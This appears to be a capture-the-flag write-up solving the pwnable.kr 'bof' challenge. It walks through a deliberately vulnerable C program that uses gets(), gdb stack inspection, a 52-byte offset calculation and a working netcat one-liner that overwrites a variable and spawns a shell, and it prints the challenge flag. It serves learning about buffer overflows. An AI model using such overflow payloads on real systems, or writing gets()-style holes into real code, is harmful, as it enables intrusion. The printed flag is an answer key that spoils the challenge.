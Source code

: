 # bof

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?


ssh bof@pwnable.kr -p2222 (pw: guest)

- let's check the contents of the directory
```bash
bof@ubuntu:~$ ls -ls
total 24
16 -rwxr-xr-x 1 root bof  15300 Mar 26  2025 bof
 4 -rw-r--r-- 1 root root   342 Mar 26  2025 bof.c
 4 -rw-r--r-- 1 root root    86 Apr  3 16:03 readme
```
```bash
bof@ubuntu:~$ cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
bof@ubuntu:~$ cat bof.c
```
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
- when i follow the instructions on the readme:
```bash
bof@ubuntu:~$ nc 0 9000
hdsjfksd
overflow me : Nah..
```
- seems that I need to overflow the buffer somehow and make the input to func 0xcafebebe instead of 0xdeadbeef
- how buffer over flow works:
    - lets take this function for example:
    ```c
    void func(const char* input){
        char buf[8];
        int n = 0x11111111;
        gets(buf);
    }
    ```
    - if we were to input 'AAAAAAAAAAAA', since buf can only hold 8 bytes, it would store the first 8. But what happens to last 4?
    - after running the program with the input we find that suddenly, n=0x41414141
    - 0x41 is the hex number for the ascii character 'A', so that's what happens to the last 4 'A's
    - i copied the bof executable into my local computer since bof runs over nc
    - when I run 'gdb bof' I disassemble both main and func to see how it runs and look for possible breakpoints
    ```bash
        gef➤  disass main
        Dump of assembler code for function main:
        0x0000068a <+0>:     push   ebp
        0x0000068b <+1>:     mov    ebp,esp
        0x0000068d <+3>:     and    esp,0xfffffff0
        0x00000690 <+6>:     sub    esp,0x10
        0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
        0x0000069a <+16>:    call   0x62c <func>
        0x0000069f <+21>:    mov    eax,0x0
        0x000006a4 <+26>:    leave
        0x000006a5 <+27>:    ret
        End of assembler dump.
        gef➤  disass func
        Dump of assembler code for function func:
        0x0000062c <+0>:     push   ebp
        0x0000062d <+1>:     mov    ebp,esp
        0x0000062f <+3>:     sub    esp,0x48
        0x00000632 <+6>:     mov    eax,gs:0x14
        0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
        0x0000063b <+15>:    xor    eax,eax
        0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
        0x00000644 <+24>:    call   0x645 <func+25>
        0x00000649 <+29>:    lea    eax,[ebp-0x2c]
        0x0000064c <+32>:    mov    DWORD PTR [esp],eax
        0x0000064f <+35>:    call   0x650 <func+36>
        0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
        0x0000065b <+47>:    jne    0x66b <func+63>
        0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
        0x00000664 <+56>:    call   0x665 <func+57>
        0x00000669 <+61>:    jmp    0x677 <func+75>
        0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
        0x00000672 <+70>:    call   0x673 <func+71>
        0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
        0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
        0x00000681 <+85>:    je     0x688 <func+92>
        0x00000683 <+87>:    call   0x684 <func+88>
        0x00000688 <+92>:    leave
        0x00000689 <+93>:    ret
        End of assembler dump.
        gef➤  

    ```
    - what stands out to me is the line in func:
    ```bash
    0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
    ```
    - as it corresponds to the line in C:
    ```c
    if(key == 0xcafebabe)
    ```
    - also noting that the line right before is:
    ```c
    gets(overflowme);       // smash me!
    ```
    - this gives me the idea that we can overflow the buffer to change the variable key from 0xdeadbeef to 0xcafebabe
    - lets put a breakpoint in func+40 where the cmp instruction is used
    - when we break at that line, we will check the address at ebp+0*8
    - for now, when the program prompts us for input, we will type a few "A"s
    ```bash
        gef➤  x/50wx $ebp+0*8
        0xffffcee8:     0xffffcf08      0x5655569f      0xdeadbeef      0x00000000
        0xffffcef8:     0x00000000      0x00000000      0x00000000      0x00000000
        0xffffcf08:     0x00000000      0xf7d8ecc3      0x00000001      0xffffcfc4
        0xffffcf18:     0xffffcfcc      0xffffcf30      0xf7f9ce14      0x5655568a
        0xffffcf28:     0x00000001      0xffffcfc4      0xf7f9ce14      0x565556b0
        0xffffcf38:     0xf7ffcb60      0x00000000      0xb33f7722      0xfd785132
        0xffffcf48:     0x00000000      0x00000000      0x00000000      0xf7ffcb60
        0xffffcf58:     0x00000000      0x79e58300      0xf7ffda60      0xf7d8ec56
        0xffffcf68:     0xf7f9ce14      0xf7d8ed88      0xf7fc7ac4      0x56556ff4
        0xffffcf78:     0x00000001      0x56555530      0x00000000      0xf7fd8390
        0xffffcf88:     0xf7d8ed09      0x56556ff4      0x00000001      0x56555530
        0xffffcf98:     0x00000000      0x56555561      0x5655568a      0x00000001
        0xffffcfa8:     0xffffcfc4      0x565556b0
        gef➤ 
    ```
    - we found 0xdeadbeef, but where are our "A"s?
    ```bash
        gef➤  x/24wx $esp
        0xffffcea0:     0xffffcebc      0xffffd18b      0x00000002      0xffffced8
        0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x41414141
        0xffffcec0:     0x41414141      0x41414141      0x41414141      0x00000041
        0xffffced0:     0x00000000      0x00000000      0xffffffff      0x79e58300
        0xffffcee0:     0xf7fbf400      0x00000000      0xffffcf08      0x5655569f
        0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
        gef➤  
    ```
    - there they are, the 0x41414141's
    - each block is 4 bytes and there are 13 blocks from the start of the "A"s to deadbeef
    - there are 4*13 = 52 bytes before we reach where deadbeef is located on the stack
    - this means that our payload needs to be "A"*52 + '0xcafebabe'
        - remember x86 architecture is little endian
        - so "A"*52 + '0xbebafeca'
    - earlier the readme said that the binary was running at nc 0 9000
        - lets use echo to print out our input to the commandline thru netcat
    ```bash
    (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000
    ```
    - we add the && cat so the program doesn't hang
    ```bash
        bof@ubuntu:~$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000  
        ls -ls
        total 5352
        16 -rwxr-xr-x 1 root root      15300 Apr  3 15:55 bof
        4 -rw-r--r-- 1 root root        372 Apr  3 15:54 bof.c
        4 -r--r----- 1 root bof_pwn      29 Apr  3 15:46 flag
        5324 -rw-r--r-- 1 root root    5445200 Oct  1 07:26 log
        4 -rwx------ 1 root root        768 Apr  3 16:06 super.pl
        cat flag
        Daddy_I_just_pwned_a_buff3r!
    ```